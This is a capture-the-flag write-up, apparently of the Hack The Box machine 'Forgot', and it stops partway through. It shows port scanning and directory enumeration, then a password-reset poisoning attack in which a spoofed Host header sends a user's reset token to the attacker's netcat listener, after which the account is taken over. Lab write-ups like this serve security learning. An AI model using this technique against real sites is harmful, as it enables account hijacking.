 HTB - Forgot

First of all I tried accessing the provided IP over port 80 and there you go:

![image](https://user-images.githubusercontent.com/51139868/217559897-d84e1cf2-33aa-4254-8e7c-b3b508508215.png)

Then I ran an nmap scan to get more info on the target:

```bash
└─$ sudo nmap -sC -sV 10.10.11.188    
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-06 18:44 EST
Nmap scan report for 10.10.11.188
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
|_http-title: Login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Fri, 06 Jan 2023 23:44:58 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     X-Varnish: 65720
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Fri, 06 Jan 2023 23:44:52 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 219
|     Location: http://127.0.0.1
|     X-Varnish: 32890
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://127.0.0.1">http://127.0.0.1</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Fri, 06 Jan 2023 23:44:52 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|     X-Varnish: 65716
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Accept-Ranges: bytes
|     Connection: close
|   RTSPRequest, SIPOptions: 
|_    HTTP/1.1 400 Bad Request
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=1/6%Time=63B8B273%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,1E2,"HTTP/1\.1\x20302\x20FOUND\r\nServer:\x20Werkzeug/2\.1\.2\x20
SF:Python/3\.8\.10\r\nDate:\x20Fri,\x2006\x20Jan\x202023\x2023:44:52\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:0219\r\nLocation:\x20http://127\.0\.0\.1\r\nX-Varnish:\x2032890\r\nAge:
SF:\x200\r\nVia:\x201\.1\x20varnish\x20\(Varnish/6\.2\)\r\nConnection:\x20
SF:close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n<title>Redirecting\
SF:.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20should\x20be\x20re
SF:directed\x20automatically\x20to\x20the\x20target\x20URL:\x20<a\x20href=
SF:\"http://127\.0\.0\.1\">http://127\.0\.0\.1</a>\.\x20If\x20not,\x20clic
SF:k\x20the\x20link\.\n")%r(HTTPOptions,117,"HTTP/1\.1\x20200\x20OK\r\nSer
SF:ver:\x20Werkzeug/2\.1\.2\x20Python/3\.8\.10\r\nDate:\x20Fri,\x2006\x20J
SF:an\x202023\x2023:44:52\x20GMT\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\
SF:nX-Varnish:\x2065716\r\nAge:\x200\r\nVia:\x201\.1\x20varnish\x20\(Varni
SF:sh/6\.2\)\r\nAccept-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n")%
SF:r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(FourOh
SF:FourRequest,1BE,"HTTP/1\.1\x20404\x20NOT\x20FOUND\r\nServer:\x20Werkzeu
SF:g/2\.1\.2\x20Python/3\.8\.10\r\nDate:\x20Fri,\x2006\x20Jan\x202023\x202
SF:3:44:58\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nConte
SF:nt-Length:\x20207\r\nX-Varnish:\x2065720\r\nAge:\x200\r\nVia:\x201\.1\x
SF:20varnish\x20\(Varnish/6\.2\)\r\nConnection:\x20close\r\n\r\n<!doctype\
SF:x20html>\n<html\x20lang=en>\n<title>404\x20Not\x20Found</title>\n<h1>No
SF:t\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20o
SF:n\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\
SF:x20please\x20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n")
SF:%r(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also ran ffuf for a basic enumeration, just in case:

```bash
─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u http://10.10.11.188/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.188/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 5189, Words: 762, Lines: 246, Duration: 221ms]
home                    [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 168ms]
tickets                 [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 158ms]
forgot                  [Status: 200, Size: 5227, Words: 766, Lines: 253, Duration: 7774ms]
                        [Status: 200, Size: 5188, Words: 761, Lines: 246, Duration: 169ms]
reset                   [Status: 200, Size: 5523, Words: 820, Lines: 261, Duration: 167ms]
:: Progress: [20116/20116] :: Job [1/1] :: 250 req/sec :: Duration: [0:01:33] :: Errors: 0 ::
```

Also dirsearch is a nice tool for web enumeration:

```bash
└─$ dirsearch -u http://10.10.11.188

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                           
 (_||| _) (/_(_|| (_| )                                                                                                    
                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/10.10.11.188/_23-01-06_19-07-36.txt

Error Log: /home/kali/.dirsearch/logs/errors-23-01-06_19-07-36.log

Target: http://10.10.11.188/

[19:07:36] Starting: 
[19:08:38] 302 -  189B  - /home  ->  /                                      
[19:08:40] 200 -    5KB - /forgot                                           
[19:08:46] 200 -    5KB - /login                                            
[19:09:09] 200 -    5KB - /reset                                            
                                                                                                                           
Task Completed 
```

This looks like a valid username:

![image](https://user-images.githubusercontent.com/51139868/217560759-5a56a430-b333-43e8-a65b-f1e7453ea698.png)

Got a reset token using burp and setting the host as my machine's ip:

![image](https://user-images.githubusercontent.com/51139868/217560953-5c250265-19b1-425f-95b0-c8b9fa5d0be3.png)

``` bash
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.153] from (UNKNOWN) [10.10.11.188] 58950
GET /reset?token=kaMdB0%2F2%2F5sveAfdUJ8FKk12vgKIctoEBSNvqoFerknByuYrEhJ%2FFbfaZeRRi2%2FSZyWsISI0J4lncmlDxWmfGA%3D%3D HTTP/1.1
Host: 10.10.14.153
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
Used the token on the request to reset the password:

![image](https://user-images.githubusercontent.com/51139868/217561257-44f02500-2566-4166-b758-ba18f5c31ca4.png)

On the second try it worked out but the password seems to change real quick:

![image](https://user-images.githubusercontent.com/51139868/217561505-b3635dbd-a9f8-422e-81b8-dc2b34543cf7.png)


Logged in with the password 'teste' that i'd setten up on the previous step:

![image](https://user-images.githubusercontent.com/51139868/217561610-d90f635c-9861-489c-bb31-0b0f538fc9ee.png)

![image](https://user-images.githubusercontent.com/51139868/217562016-c5ef2eb0-6f5b-4b90-8272-a694c6fe4c66.png)

..................... to be continued
